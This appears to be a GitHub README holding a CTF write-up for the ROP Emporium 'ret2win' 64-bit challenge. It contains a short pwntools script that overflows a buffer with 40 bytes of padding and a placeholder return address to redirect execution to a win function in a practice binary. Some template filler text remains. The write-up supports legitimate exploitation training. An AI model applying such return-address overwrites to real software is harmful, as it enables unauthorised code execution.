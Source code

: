 # CTF-2020

> ## [ROP EMPORIUM](#rop)
>
> - [Ret2Win 64 bit](#ret2win)





## ROP EMPORIUM<a name="rop"></a>

***

### RET2WIN64<a name="ret2win"></a>

> For this first challenge I needed to issue the command `$ r2 ret2win`
>
>> This is just an example of nested block quotes 

![First image](https://github.com/jpowellroot/CTF-2020/blob/master/2-1.png?raw=true)

##### payload

~~~ python
#/usr/bin/env python

from pwn import *

elf = context.binary = ELF('ret2win')    # settin up the environment
context.log_level = 'debug'

padding = cyclic(40)                     # junk to fill up the buffer
ret2win = p64(0xdeadbeef)                # address of the ret2win function

payload = padding + ret2win              # final payload

io = process(elf.path)                   
io.sendline(payload)                     # send the payload
io.wait_for_close()
print io.recvall()                       # prints the flag!
~~~
